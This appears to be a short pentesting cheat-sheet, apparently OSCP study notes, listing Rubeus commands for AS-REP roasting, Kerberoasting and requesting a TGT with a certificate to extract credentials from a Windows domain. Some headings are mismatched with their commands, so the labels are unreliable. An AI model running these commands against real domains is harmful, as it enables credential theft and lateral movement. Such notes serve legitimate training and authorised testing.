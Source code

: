 
1. Put on target windows device

```c
.\rubeus.exe asreproast
```
![[Pasted image 20231113194001.png]]

##### Overpass the Hash

```c
.\Rubeus.exe kerberoast /user:<USERNAME>
```

##### [](https://github.com/0xsyr0/OSCP#pass-the-hash)Pass the Hash

```c
.\Rubeus.exe asktgt /user:Administrator /certificate:7F052EB0D5D122CEF162FAE8233D6A0ED73ADA2E /getcredentials
```
#### Kerberoast
```c
.\Rubeus.exe kerberoast /nowrap
```